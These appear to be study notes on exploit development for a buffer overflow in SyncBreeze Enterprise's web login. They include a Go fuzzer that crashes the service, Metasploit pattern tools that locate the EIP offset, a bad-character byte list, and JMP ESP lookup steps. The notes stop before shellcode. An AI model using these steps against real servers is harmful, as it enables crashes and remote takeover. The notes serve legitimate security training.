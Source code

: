# Buffer Overflow Notes

## Introduction
Fuzzing is a reverse engineering technique used to find places in the code where unhandled input can be provided, leading to an application crash or other behavior which can be further exploited.

## HTTP Fuzzing - SyncBreeze

We open the Sync Breeze Enterprise server on our test machine and navigate to the Sync Breeze web portal:

![sync breeze portal](img/screen1.png)

We attempt to login using invalid credentials and capture the response in wireshark. We analyze the TCP stream and find our login request:

![login](img/screen2.png)
![req](img/screen3.png)

## First Fuzzer POC

The following Go program fuzzes the username parameter of the page by sending an increasingly large payload every iteration until it reaches 2000 bytes of lenght.

```
// SyncBreeze 'username' POST parameter fuzzer
// By disastrpc @ github.com/disastrpc

package fuzz

import (
	"fmt"
	"net/http"
	"net/url"
	"os"
	"strings"
	"time"
)

const target string = "http://192.168.138.10/login"

func er(err error) {
	if err != nil {
		panic(err)
	}
}

func main() {

	client := http.Client{
		Timeout: 5 * time.Second,
	}

	for S := 100; S < 2000; S += 100 {
		buf := strings.Repeat("A", S)
		fmt.Printf("Injecting buffer of %d bytes\n", S)
		form := url.Values{}
		form.Add("username", buf)
		form.Add("password", "test")

		req, err := http.NewRequest("POST", target, strings.NewReader(form.Encode()))
		er(err)
		req.PostForm = form
		req.Header.Add("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8")
		req.Header.Add("content-Type", "application/x-www-form-urlencoded")
		req.Header.Add("Content-Length", string(len(buf)))
		resp, err := client.Do(req)

		if err != nil {
			fmt.Printf("Crash with buffer of %d bytes\n", len(buf))
			os.Exit(0)
		}
		defer req.Body.Close()

		fmt.Println(resp.Status)
		time.Sleep(time.Second * 1)
	}

}
```

Running the script crashes the application at around 800 bytes.

We can see that the EIP register was overwritten by our A characters:

![eip](img/eip41.png)

## Ways to Control Registers

We know our payload overwrites the EIP register, however, we still don't know the exact location in our buffer where this overwrite occurs. 

One of the method we can use is binary tree analysis, where we recursively split the payload into different letters. We can then pinpoint the exact location depending on what letter overwrites the address.

Another (faster) method is to use a non-repeating sequence of bytes, with enough lenght to crash the application. 

## msf-pattern-create

Using this script developed by Metasploit, we can generate a pattern of a specified length:

```
disastrpc sync_breeze λ msf-pattern_create -l 800
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
...
...
Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba
```

We can use that pattern as the buffer to our poc program:

```
buf := "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa...a0Ba1Ba2Ba3Ba4Ba5Ba"

form := url.Values{}
form.Add("username", buf)
form.Add("password", "test")`
```

After the program is executed the following string overwrites the EIP address:

![eip_over](img/eip_over.png)

The EIP register gets overwritten by the string "B0aB".

## msf-pattern_offset

The script *msf-pattern_offset* finds an offset in bytes where the query supplied can be found on the generated buffer. 
```
disastrpc poc λ msf-pattern_offset -q 42306142 -l 800                        
[*] Exact match at offset 780  
```

In this case the script found the bytes at EIP to be located at offset 780 in our buffer.

## Introducing Shellcode

Now that we control the EIP memory register, we can introduce shellcode which will perform whatever function we decide. Shellcode is a set of assembly instructions which normally execute reverse shells or other functions through our overflow.

In our particular case, the remaining buffer of C's is a good place to write the shellcode to, since we can easily access it after our EIP offset. But due to the size of this buffer being too small to hold any meaningful code, we are able to expand our available space by sending a larger payload, if the conditions of the crash don't change then we have successfully expanded our available memory.

## Bad Characters

Some applications and protocols contain restricted characters which hold special meaning, these characters will often cause issues and can't be included in our shellcode.

In order to find these characters we can send all possible hex characters:

```
buf += "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
buf += "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
buf += "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
buf += "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
buf += "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
buf += "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
buf += "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
buf += "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
buf += "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
buf += "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
buf += "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
buf += "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
buf += "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
buf += "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
buf += "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
buf += "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

## JMP ESP

One reliable way of pointing the ESP register to our code is by leveraging a JMP ESP instruction already present in the code. But it must fulfill some criteria first:

- Must be static (No ASLR)
- Must not contain bad characters

## Mona.py

The Immunity script Mona.py will allow us to search the address space for a specific instruction, which in this case is JMP ESP.

Start the script by writing *!mona modules*, which will display all loaded modules for the attached program. We can see that the *syncbreeze.exe* has been compiled without any protection measures:

![mods](img/sync_mod.png)

## Writing Instructions w/ NASM_Shell

We can use another tool by the Metasploit team called nasm_shell in order to generate assembly instructions in hexadecimal format.

```
disastrpc sync_breeze λ msf-nasm_shell 
nasm > jmp esp
00000000  FFE4              jmp esp
```




